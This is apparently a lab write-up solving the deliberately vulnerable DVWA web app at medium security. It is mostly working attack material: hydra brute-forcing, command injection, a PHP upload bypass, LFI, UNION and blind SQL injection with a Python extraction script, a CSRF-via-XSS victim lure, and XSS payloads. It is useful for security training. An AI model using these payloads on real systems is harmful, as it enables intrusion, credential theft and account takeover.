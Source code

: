 
### Target

    https://github.com/ethicalhack3r/DVWA

    Security level: medium

### Prereq

    # get user token
    $ TOKEN=$(curl -c dvwa.session -s http://192.168.56.101/DVWA/login.php | grep 'user_token' | awk -F 'value=' '{print $2}' | cut -d"'" -f2)

    # get session id
    $ PHPSESSID=$(grep PHPSESSID dvwa.session | awk -F' ' '{print $7}')

    # log in
    $ curl -L -b "PHPSESSID=${PHPSESSID};security=medium" -v -d "username=admin&password=password&Login=Login&user_token=${TOKEN}" http://192.168.56.101/DVWA/login.php

### Brute Force

    $ wget https://raw.githubusercontent.com/seifreed/dirb/master/wordlists/others/best110.txt

    $ hydra -t 8 -l admin -P best110.txt -vV 192.168.56.101 http-get-form "/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:F=password incorrect:H=Cookie: PHPSESSID=${PHPSESSID};security=medium"

### Command Injection

```
# '\n' as a bash commands separtor
$ curl -s -b "PHPSESSID=${PHPSESSID};security=medium" -d 'ip=%0auname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    

OR

# '&' as a bash commands separtor
$ curl -s -b "PHPSESSID=${PHPSESSID};security=medium" -d 'ip=%26uname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    
```

### File Upload

**Vuln:** insufficient file type validation - looking only at filetype controlled by the user ($_FILES['userfile']['type'])

**Exploitation**

```
cat > b.php <<EOF
<?php phpinfo(); ?>
EOF

curl -x 127.0.0.1:8080 -L -b "PHPSESSID=${PHPSESSID};security=medium" -F "MAX_FILE_SIZE=100000" -F "uploaded=@b.php;type=image/jpeg;filename=b.php" -F "Upload=Upload" http://192.168.56.101/DVWA/vulnerabilities/upload/index.php

curl -s -b "PHPSESSID=${PHPSESSID};security=medium" http://192.168.56.101/DVWA/hackable/uploads/b.php
```

### File Inclusion

**Vuln:** insufficient input validation

**Exploitation**

```
# LFI:
$ curl -L -b "PHPSESSID=${PHPSESSID};security=medium" -v http://192.168.56.101/DVWA/vulnerabilities/fi/?page=..././..././hackable/flags/fi.php

# RFI payload example:
hTTp://
```

### Sql Injection

**Vuln:** incorrect use of mysqli_real_escape_string function: now quotes are used so input is treated as integer

Payload to retreive users password fields:

```
1 union select Password, User from users#
```

**Exploitation**

```
$ curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=medium" "http://192.168.56.102/DVWA/vulnerabilities/sqli/index.php" -d 'id=1+union+select+Password%2CUser+FROM+users%23&Submit=Submit'
```

### Sql Injection (Blind)

**Vulnerability**

Payloads:

```
true condtion: 1 and 1=1#
false condition: 1 and 1=0#
```

**Exploitation**

Manual:

```
# dependency:
https://stackoverflow.com/questions/296536/how-to-urlencode-data-for-curl-command

# true condition:
curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=medium" "http://192.168.56.102/DVWA/vulnerabilities/sqli_blind/index.php" -d "id=$(rawurlencode "1 and 1=1#")&Submit=Submit"

# false condition:
curl -s -x 127.0.0.1:8080 -b "PHPSESSID=${PHPSESSID};security=medium" "http://192.168.56.102/DVWA/vulnerabilities/sqli_blind/index.php" -d "id=$(rawurlencode "1 and 1=0#")&Submit=Submit"
```

Retreiving DBMS version PoC:

```
cat > poc.py <<EOF
"""
example output of @@version: 5.7.16-0ubuntu0.16.04.1

first find length of the @@version string:
1 and length(@@version)=7#

iterate thru printable ASCII and retreive @@version string
1 and ascii(substring(@@version,1,1))=0x35#
"""

import requests
import string
from urllib import quote, unquote

proxies = {
    "http" : "http://127.0.0.1:8080/"
}

# initiate HTTP session
session = requests.Session()
session.cookies['security'] = 'medium'
session.cookies['PHPSESSID'] = 'sg9087bvkh5pu14tarpakuqf25'

u = 'http://192.168.56.102/DVWA/vulnerabilities/sqli_blind/index.php'

# find length of @@version string
for i in xrange(1, 30):
    payload = "1 and length(@@version)=" + str(i) + "#"
    params = {'id': payload, 'Submit': "Submit"}
    resp = session.post(u, data=params, proxies=proxies)

    if resp.text.find("MISSING") == -1:
        len = i
        break

# retreive @@version string
version=""
for i in xrange(1, len + 1):
    for c in string.printable:
        payload = "1 and ascii(substring(@@version,{0},1))={1}#".format(i, hex(ord(c)))
        params = {'id': payload, 'Submit': "Submit"}
        resp = session.post(u, data=params, proxies=proxies)

        if resp.text.find("MISSING") == -1:
            print payload
            version += c

print version
EOF
```

### CSRF

XSS vulnerability on the DVWA site (for example this in `http://192.168.56.102/DVWA/vulnerabilities/xss_r`) needs to be used in order do defeat `Referer` check:

```
# trick victim to visit (while logged in to DVWA) the following:
http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Enew%20Image().src=%22http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=pass2%26password_conf=pass2%26Change=Change%22%3C%2Fscript%3E%3Cpre%3E#

OR

# trick victim to visit 3rd party site (while logged in to DVWA) with already planted iframe:
<iframe SRC='http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Enew%20Image().src=%22http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=pass3%26password_conf=pass3%26Change=Change%22%3C%2Fscript%3E%3Cpre%3E#' height="0" width="0"></iframe>
```

### XSS (Reflected)

    http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Ealert(1)%3C%2Fscript%3E%3Cpre%3E#

### XSS (DOM)

Payload that ilustrates vulnerability (this time filtering is done on server side so we use anchor '#' to prevent it from sending to the server:

    English#<script>alert(1);</script>

Or do not use 'script' tags:

    English</option></select><img src='x' onerror='alert(1)'>
